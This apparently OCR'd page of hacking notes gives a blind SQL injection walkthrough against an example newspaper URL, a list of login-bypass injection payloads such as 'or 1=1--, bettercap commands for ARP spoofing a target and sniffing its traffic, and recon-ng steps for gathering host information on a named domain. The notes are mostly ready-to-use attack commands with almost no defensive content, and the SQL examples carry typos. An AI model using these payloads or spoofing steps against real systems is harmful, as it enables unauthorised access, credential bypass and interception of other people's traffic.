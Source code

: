   * Sanitization means cleaning 

         http://newpaper.com/item.php?id=2

   1. The URL above send the folowing query to the database
```sql
         SELECT title, description, body FORM
         items WHERE ID=2
```

   2. The attacker inject a query that returns 'false':  
         http://newspaper.com/item.php?id=2 and 1=2

      Now the query looks like 
```sql
      SELECT title, description, body from
      items WHERE ID=2 and 1=2
```

   3. send a query that returns TRUE
         http://newspaper.com/item.php?id=2 and 1=1

   If the content that returns TRUE is different that the page 
   whose returns FALSE then the attacker is able to distinguish
   when the executed query returns TRUE or FALSE

### LOGIN TRICKS
```sql
   admin'--
   admin'#
   admin'/*
   'or 1=1--
   'or 1=1#
   'or 1=1/*
   ') or'1'='1--
   ') or ('1'='1--
```

## BETTERCAP[WIFI TOOL]
* RUN PROBE MODULE(RUN THIS CMD TO SHOW ENTIRE NETWORK)
   net.probe show

* SHOW INTERFACE WITH INFO
   net.show

* ATTACK TARGET
   set arp.spoof.targets <ip>

* RUN ARP MODULE
   arp.spoof on

* ENABLE SNIFFING
   set net.sniff.verbose true
   net.sniff on

## RECON-NG[GATHERING INFORMATION]
   `marketplace`                                                  Show all modules
   `marketplace search hackertarget`                              Search path for module
   `marketplace install recon/domains-hosts/hackertarget`         Install hackertarget module
   `modules search`                                               Show modules installed
   `modules load recon/domains-hosts/hackertarget`                Load module
   `options set SOURCE loiliangyang.com`                          Set TARGET
   `run`                                                          Run ATTACK
   `back`                                                         Go back in step
